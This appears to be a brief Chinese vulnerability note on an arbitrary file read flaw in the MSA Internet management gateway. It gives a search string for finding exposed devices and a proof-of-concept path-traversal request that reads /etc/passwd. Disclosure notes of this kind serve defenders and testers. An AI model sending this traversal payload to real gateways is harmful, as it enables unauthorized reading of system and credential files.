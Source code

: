 # MSA 互联网管理网关 msa 任意文件下载漏洞

# MSA 互联网管理网关 msa 任意文件下载漏洞

## 漏洞描述

MSA 互联网管理网关存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

```
MSA 互联网管理网关
```

## 网络测绘

```
"互联网管理网关"
```

## 漏洞复现

登录页面

![img](/images/202202110916716.png)

验证POC

```php
/msa/../../../../etc/passwd
```

![img](/images/202202110916705.png)

